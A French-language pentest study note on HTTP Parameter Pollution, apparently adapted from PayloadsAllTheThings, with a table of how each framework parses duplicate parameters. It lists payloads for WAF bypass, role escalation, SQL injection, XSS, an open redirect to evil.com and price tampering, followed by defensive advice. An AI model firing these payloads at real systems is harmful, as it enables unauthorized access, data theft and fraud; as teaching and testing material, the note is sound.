

# HPP — HTTP Parameter Pollution

> [!info] **En 1 phrase**
> HPP = **dupliquer un paramètre** dans une requête (`?id=1&id=2`) pour exploiter la **divergence de parsing** entre le frontend (WAF/proxy) et le backend : le premier valide une valeur "propre", le second en utilise une autre → bypass WAF, bypass auth, modification de logique métier.
>
> Source principale : **[PayloadsAllTheThings — HTTP Parameter Pollution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/HTTP%20Parameter%20Pollution/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> HTTP ne définit **aucune règle officielle** pour les paramètres dupliqués. Le serveur garde
> **toutes les valeurs** mais chaque technologie décide ensuite laquelle utiliser (1ère, dernière,
> ou tableau). On abuse de ce comportement pour que **WAF/proxy et app ne voient pas la même chose** :
> le filtre inspecte une valeur, l'application en exécute une autre.

### Deux niveaux de HPP

- **Côté client** : le JS du navigateur génère l'URL (ex: lien paginé, refresh, export) — on abuse des paramètres qu'il construit (`param=value1&param=value2`).
- **Côté serveur** : le backend récupère une valeur différente de celle inspectée par le WAF.

```bash
/app?debug=false&debug=true
/transfer?amount=1&amount=5000
```

---

## Comportement des backends

> [!tip] À mémoriser : **PHP/Django/Rails = dernier**, **JSP/Tomcat/Go/Flask = premier**,
> **ASP.NET/Node/Zope = tableau**. Le tableau exact dépend de la fonction utilisée par le dev.

Quand la requête est `?par1=a&par1=b`, `par1` vaut :

| Technologie | Règle de parsing | Valeur de `par1` |
|---|---|---|
| **PHP / Apache** (`$_GET`) | Dernière occurrence | `b` |
| **PHP / Zues** | Dernière occurrence | `b` |
| **ASP.NET / IIS** (`Request.QueryString`) | Toutes les occurrences | `a,b` |
| **ASP / IIS** | Toutes les occurrences | `a,b` |
| **JSP / Servlet / Tomcat** (`getParameter`) | Première occurrence | `a` |
| **Java / Spring** (`@RequestParam`) | Première occurrence | `a` |
| **Golang** `r.URL.Query().Get("par1")` | Première occurrence | `a` |
| **Golang** `r.URL.Query()["par1"]` | Tableau | `['a','b']` |
| **Node.js / Express** (`req.query`, parser `qs`) | Tableau / dernière | `['a','b']` |
| **Node.js** (parser `querystring`) | Dernière occurrence | `b` |
| **Python / Django** (`request.GET.get()`) | Dernière occurrence | `b` |
| **Python / Django** (`request.GET.getlist()`) | Toutes les occurrences | `['a','b']` |
| **Python / Flask** (`request.args.get()`) | Première occurrence | `a` |
| **Python / Flask** (`request.args.getlist()`) | Toutes les occurrences | `['a','b']` |
| **Python / mod_wsgi / Apache** | Première occurrence | `a` |
| **Python / Zope** | Tableau | `['a','b']` |
| **Ruby on Rails** (`params[:par1]`) | Dernière occurrence | `b` |
| **IBM HTTP Server / Lotus Domino** | Première occurrence | `a` |
| **Perl CGI / Apache** | Première occurrence | `a` |

> [!warning] **Préférer l'expérimentation au tableau.** Les versions, frameworks et fonctions
> changent la règle (`get` vs `getlist`, parser `qs` vs `querystring`). Toujours tester en réel
> via une page qui **reflète** la valeur reçue.

---

## Payloads

### Doublon classique (URL)

```http
param=value1&param=value2
transfer?amount=1&amount=5000
app?debug=false&debug=true
```

### Dans le corps (POST)

```http
POST /transfer HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded

amount=1&amount=5000
```

### Mix GET + POST

```bash
# Le même nom en query ET en body : le framework choisit parfois la requête dans un ordre précis
curl -X POST 'http://target/transfer?amount=1' \
     -d 'amount=5000'
```

### Dans les cookies

```http
Cookie: role=user; role=admin
Cookie: session=abc; debug=true; debug=false
```

> [!tip] Les **headers parsés** (Cookie, X-Forwarded-For...) peuvent aussi être dupliqués —
> un parseur custom côté serveur peut lire la dernière valeur.

### Array injection

```http
param[]=value1
param[]=value1&param[]=value2
param[]=value1&param=value2
param=value1&param[]=value2
```

### Encodé / imbriqué

```http
param=value1%26other=value2          # & encodé → second paramètre "créé" au parsing
param[key1]=value1&param[key2]=value2 # imbrication (déréférence de tableau)
```

### JSON

```json
{
  "test": "user",
  "test": "admin"
}
```

---

## Attaques

### Bypass d'authentification / de contrôle

```http
GET /admin?role=user&role=admin          # PHP prend la dernière → admin
GET /panel?admin=0&admin=1
GET /profile?privilege=normal&privilege=superadmin
```

### Bypass de filtre / WAF

Le WAF ne voit que la **première valeur** (ou la plus courte), le backend en lit une autre :

```http
# WAF bloque "select" → on le met en premier paramètre inoffensif, SQLi en second
GET /search?q=safe&q=1' UNION SELECT username,password FROM users--

# À l'envers (WAF = dernière valeur) : payload en première position
GET /search?q=1' UNION SELECT 1--&q=safe
```

### HPP → SQLi (double paramètre)

```http
# PHP garde id=2 : injection placée dans la 2ème valeur
GET /product?id=1&id=1' AND SLEEP(5)--

# MySQL : WHERE id IN (...) énumère les deux valeurs
GET /product?id=1&id=2
# → SELECT * FROM products WHERE id IN ('1','2')  → 2 résultats au lieu d'1

# Bypass WAF : SQLi en 1er (WAF = dernière), valeur propre en 2nd
GET /product?id=1' UNION SELECT 1,2,3--&id=1
```

### HPP → XSS

```http
# Le WAF filtre <script> dans la 1ère valeur → payload en 2ème
GET /search?q=clean&q=<script>alert(document.domain)</script>
# Java/Tomcat (1ère valeur) : l'app réfléchit la 1ère → payload en 1er
GET /search?q=&q=clean
```

### HPP sur les redirections (Open Redirect)

```http
GET /login?next=/dashboard&next=https://evil.com/phish
# Le backend (dernier) redirige vers evil.com, le WAF n'a vu que /dashboard
```

### Bypass de validation métier (double lecture)

```http
# Le middleware valide la 1ère valeur (type int), l'ORM utilise la dernière
POST /order HTTP/1.1
Content-Type: application/x-www-form-urlencoded

price=10&price=1
# → validation sur 10, stockage/commande sur 1  →  achat à 1€
```

### Incohérence frontend / backend (requête conteneur)

Les reverse proxies (Apache, Nginx, Traefik, gateways) peuvent concaténer ou réordonner les
paramètres entre client et app : `?id=1&id=2` devient `?id=2&id=1` après normalisation,
inversant la règle que l'on croyait connaître. L'attaque profite de ce **double parsing**.

### HPP sur les APIs

```http
GET /api/v1/users?page=1&page=0&size=1000        # pagination → dump massif
GET /api/v1/search?limit=10&limit=10000          # même résultat que size
POST /api/v1/transfer?amount=1&amount=1000000    # montant → la 2ème valeur gagne
GET /api/v1/items?filter=active&filter=all       # fuite de données
```

---

## Outils

| Outil | Usage |
|---|---|
| **Burp Suite (Repeater / Intruder)** | Modifier à la main / bruteforcer les doublons de paramètres |
| **OWASP ZAP** | Intercepter et manipuler les paramètres HTTP |
| **curl** | Tests rapides de duplication (`?id=1&id=2`) |

```bash
# Tester la règle de parsing : la réponse reflète-t-elle a, b, a,b ou un tableau ?
curl -s 'http://target/echo?par1=a&par1=b' | grep -i par1

# Masser les positions (premier / dernier) pour trouver la bonne règle
for pos in "v1=1&v2=2" "v1=2&v2=1"; do
  curl -s "http://target/app?param=$pos" ; echo
done
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Prendre une seule valeur** | Ne lire que la **première** occurrence (ou dernière) — une **règle documentée**, appliquée partout |
| **Rejeter les doublons** | 400 si un paramètre apparaît plusieurs fois (valider la structure de la requête) |
| **Validation côté serveur** | Re-construire la requête côté app avec des valeurs **typées** (int, enum...) — jamais le parsing brut |
| **Aller-retour d'une seule source** | L'app ne doit **jamais** dépendre de la position dans la requête reçue |
| **WAF** | Utile mais **insuffisant** : c'est précisément la cible du HPP (conserver un seul parseur = app) |
| **Tests** | Dupliquer **systématiquement** chaque paramètre des endpoints sensibles (auth, transfert, admin) |

---

## Tips & Pièges

> [!tip] **Tester toujours la duplication**
> Tout paramètre d'un endpoint sensible doit être testé avec `param=valeur&param=autre` :
> montant, rôle, `admin`, `debug`, `page`, `size`, `filter`, `redirect`, `next`. Une seule
> divergence WAF/app suffit.

> [!tip] **Le HPP est un multiplicateur d'impact**
> Il ne crée pas la vulnérabilité : il **augmente la surface** d'un point d'injection existant
> (SQLi, XSS, Open Redirect, désérialisation) en faisant porter la charge malveillante à une
> position que le filtre ne voit pas.

> [!warning] **Pièges de parsing**
> - `application/json` vs `urlencoded` : un endpoint JSON peut accepter deux clés identiques
>   (`{"test":"user","test":"admin"}`) alors que l'équivalent urlencodé est refusé (ou l'inverse).
> - `&` encodé `%26` crée un **faux second paramètre** après décodage serveur.
> - La règle (1er / dernier / tableau) change selon la **fonction** appelée par le dev
>   (`get()` vs `getlist()`, `Query()` vs `Query().Get()`).
> - Un proxy peut **réordonner** les paramètres → la règle constatée en direct n'est pas celle du backend.
> - PHP : `$_REQUEST` fusionne `$_GET`+`$_POST` — le même nom peut être écrasé entre les deux sources.

> [!warning] **À ne pas oublier**
> - HPP **client-side** : un lien construit par le JS (`new URL`, concaténation de query) peut
>   laisser passer un second paramètre fourni par l'attaquant.
> - Tester **cookie dupliqué** et **headers dupliqués**, pas seulement la query string.
> - La réponse qui **réflète** la valeur (`echo`, pagination, recherche) est le meilleur oracle.

---

## Liens

- [[Injection SQL| SQLi]]
- [[XSS (Cross-Site Scripting)| XSS]]
- [[Web Cache Deception| Cache Deception]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — HTTP Parameter Pollution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/HTTP%20Parameter%20Pollution/README.md)
